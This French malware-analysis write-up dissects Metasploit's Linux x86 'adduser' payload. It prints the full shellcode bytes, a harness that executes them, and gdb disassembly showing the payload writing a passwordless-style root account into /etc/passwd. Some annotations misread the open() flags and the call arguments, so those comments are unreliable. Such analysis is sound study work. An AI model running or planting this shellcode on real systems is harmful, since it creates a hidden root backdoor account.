

# Analyse de trois payload issus générés via metasploit #

Métasploit propose plusieurs payload présentés ci-dessous :




Nous allons procéder à l'analyse des trois premiers.

## Premier payload, adduser: ##

Nous générons le code avec la commande :
```c
msfvenom -a x86 --platform linux -p linux/x86/adduser -f c
```
```c
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

Le shellcode est copié dans un fichier shellcode.c afin de pouvoir procéder à l'analyse.

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"Pur your shellcode here";

int main()
{

        printf("taille %lu\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

Puis compilé :

```c
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Nous executons le programme et observons les modifications :

```c
./shellcode
more /etc/passwd | grep metasploit
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Il y a effectivememnt un utilisateur qui vient d'être ajouté.


On lance gdb et nous voyons qu'un call vers la fonction prinf de libc est executé.
La valeur 40 et la chaine taille\n sont également posées sur la pile.

```c
   0x8048419 <main+14>:	sub    esp,0x14
   0x804841c <main+17>:	sub    esp,0x8
   0x804841f <main+20>:	push   0x28
=> 0x8048421 <main+22>:	push   0x8048562
   0x8048426 <main+27>:	call   0x80482e0 <printf@plt>
   0x804842b <main+32>:	add    esp,0x10
   0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
   0x8048435 <main+42>:	mov    eax,DWORD PTR [ebp-0xc]

   gdb-peda$ x/s 0x8048562
   0x8048562:	"taille %d\n"
```


A l'adresse 0x804842e l'adresse de la fonction à étudier(0x8048500) est mise sur la pile.

```c
=> 0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
```

En observant un peu en mémoire à l'adresse 0x804852b, nous trouvons la chaine qui est présente dans le fichier /etc/passwd.

```c
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

A l'adresse 0x8048438, la commande call eax est l'appel qui va nous interesser, il est détaillé ci-dessous.

```asm
    
    ;setreuid syscall (Fixe les ID d'utilisateur effectif et réel du processus appelant)
    ;setreuid(0)

=> 0x08048500 <+0>:	xor    ecx,ecx
   0x08048502 <+2>:	mov    ebx,ecx
   0x08048504 <+4>:	push   0x46
   0x08048506 <+6>:	pop    eax			
   0x08048507 <+7>:	int    0x80                 

    ;open syscall (open file /etc/passwd)

   0x08048509 <+9>:	    push   0x5			    
   0x0804850b <+11>:	pop    eax
   0x0804850c <+12>:	xor    ecx,ecx
   0x0804850e <+14>:	push   ecx
   0x0804850f <+15>:	push   0x64777373		;dwss
   0x08048514 <+20>:	push   0x61702f2f		;ap//
   0x08048519 <+25>:	push   0x6374652f		;cte/
   0x0804851e <+30>:	mov    ebx,esp
   0x08048520 <+32>:	inc    ecx              
   0x08048521 <+33>:	mov    ch,0x4			; ecx = 0x401 = s_ixoth and s_irusr (read and execute)
   0x08048523 <+35>:	int    0x80			    
   0x08048525 <+37>:	xchg   ebx,eax

    ; call 0x8048553 with arg[0]: 0x6374652f ('/etc')
    ; arg[1]: 0x61702f2f ('//pa')
    ; arg[2]: 0x64777373 ('sswd')
    ; arg[3]: 0x0 


   0x08048526 <+38>:	call   0x8048553 <code+83>

    ; Copie le contenu de ecx dans le fichier /etc/passwd

    [----------------------------------registers-----------------------------------]
        EAX: 0x4        ; write syscall
        EBX: 0xfffffff3 ; pointeur vers le fichier /etc/passwd
        ECX: 0x804852b ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀") ; chaîne à copier
        EDX: 0x28 ('(') ;taille de la chaine à copier
        ESI: 0xf7fb7000 --> 0x1afdb0 
        EDI: 0xf7fb7000 --> 0x1afdb0 
        EBP: 0xffffcf78 --> 0x0 
        ESP: 0xffffcf4c ("/etc//passwd")
        EIP: 0x804855a --> 0x16a80cd
        EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
        [-------------------------------------code-------------------------------------]
        0x8048556 <code+86>:	cld    
        0x8048557 <code+87>:	push   0x4
        0x8048559 <code+89>:	pop    eax
        => 0x804855a <code+90>:	int    0x80
        0x804855c <code+92>:	push   0x1
        0x804855e <code+94>:	pop    eax
        0x804855f <code+95>:	int    0x80
        0x8048561 <code+97>:	add    BYTE PTR [ecx+eiz*2+0x69],dh
    [------------------------------------stack-------------------------------------]

    ; Le reste du code n'est pas exécuté
    
   0x0804852b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804852c <+44>:	gs je  0x8048590
   0x0804852f <+47>:	jae    0x80485a1
   0x08048531 <+49>:	ins    BYTE PTR es:[edi],dx
   0x08048532 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x08048533 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804853b <+59>:	jae    0x80485a7
   0x0804853d <+61>:	xor    al,0x70
   0x0804853f <+63>:	xor    al,0x49
   0x08048541 <+65>:	push   edx
   0x08048542 <+66>:	arpl   WORD PTR [edx],di
   0x08048544 <+68>:	xor    BYTE PTR [edx],bh
   0x08048546 <+70>:	xor    BYTE PTR [edx],bh
   0x08048548 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804854a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804854c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804854f <+79>:	das    
   0x08048550 <+80>:	jae    0x80485ba
   0x08048552 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x08048555 <+85>:	push   ecx
   0x08048556 <+86>:	cld   

   ; write

   0x08048557 <+87>:	push   0x4
   0x08048559 <+89>:	pop    eax
   0x0804855a <+90>:	int    0x80			

    ; exit 

   0x0804855c <+92>:	push   0x1
   0x0804855e <+94>:	pop    eax
   0x0804855f <+95>:	int    0x80			
```


